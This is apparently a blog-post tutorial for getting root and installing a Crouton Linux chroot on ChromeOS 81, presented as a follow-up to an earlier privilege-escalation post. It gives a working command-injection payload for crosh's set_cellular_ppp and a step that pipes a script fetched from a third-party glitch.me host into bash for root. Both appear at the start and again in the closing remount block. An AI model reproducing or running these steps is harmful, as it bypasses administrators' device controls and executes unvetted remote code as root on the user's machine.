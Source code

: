 # Adventures in Chroots

This post is a follow-up to "Privelige escalation without un-enrolling". If you haven't read it yet, then you totally should.

After discovering how to run executables off of a USB drive mounted with `exec`, I wanted to get Crouton running, to allow for a graphical environment to run piggybacking off of ChromeOS's X server. After a bit of experimenting, I managed to get everything running as expected, and I'll walk you through the steps below. 

First off, downgrade to ChromeOS 81. It's required for this whole thing to work. Open up crosh and use the `set_cellular_ppp` exploit to get to bash:

```
set_cellular_ppp \';bash;exit;\'
```

Now, we get root...

```bash
bash <(curl https://hostz.glitch.me/80.sh)
```

And after a few seconds, you should be dropped into an SSH session pointing to `localhost`. Plugin your USB drive or SD card (ext4 formatted **only**) now. Find it (it's usually /dev/sda) with `fdisk`:

```bash
fdisk -l
```

Now, we need to create a mount point, and we'll do so in the only mounted filesystem that is read-write: `chronos`'s home directory.

```bash
mkdir -p /home/chronos/usbdrv
```

And we mount the USB drive (replacing /dev/sdX with the block device that points to your USB drive/SD card):

```bash
mount -o exec,suid,dev,symfollow /dev/sdX /home/chronos/usbdrv
cd /home/chronos/usbdrv
ls # Verify that the files were mounted.
```

Now we need to download the git repo:

```bash
curl https://github.com/rainestorme/crouton/archive/refs/tags/downloadlink.tar.gz -o crouton.tar.gz
tar -xvf crouton.tar.gz
cd crouton
```

Now that we have the crouton source, we need to add the `host-bin` directory to the `$PATH`. 

```bash
export PATH="/home/chronos/usbdrv/crouton/host-bin:$PATH"
```

To install a chroot, we need to also download the crouton installer (I know, It's tedious).

```bash
curl https://raw.githubusercontent.com/dnschneid/crouton/master/installer/crouton -o crouton
chmod +x crouton
```

Finally, we need to install a chroot. A list of targets is available on [here](https://github.com/rainestorme/crouton/tree/master/targets). I personally reccommend `lxde` for lower-end Chromebooks, so that's what I went with in this tutorial.

```bash
./crouton -t lxde -p ./
```

This command will take a bit (for me it took 50 minutes on my `lars` Chromebook) and will eventually prompt you for a username and password. Set them (the password won't be shown in the terminal) and wait for the rest of the process to finish.

Now that you've installed the chroot, you can run `startlxde` (in the case that you chose an lxde desktop environment) and it will mount the required filesystems automatically.

In the case that you restarted your terminal at any point after installing the chroot, then you can run the following commands to remount the drive and add the scripts back to your `$PATH`:

```bash
# In crosh
set_cellular_ppp \';bash;exit;\'
# In bash
bash <(curl https://hostz.glitch.me/80.sh)
# In the root SSH prompt
mkdir -p /home/chronos/usbdrv
mount -o exec,suid,dev,symfollow /dev/sdX /home/chronos/usbdrv # Remember to replace /dev/sdX, use "fdisk -l" to find your drive
cd /home/chronos/usbdrv
export PATH="/home/chronos/usbdrv/crouton/host-bin:$PATH"
startlxde
```

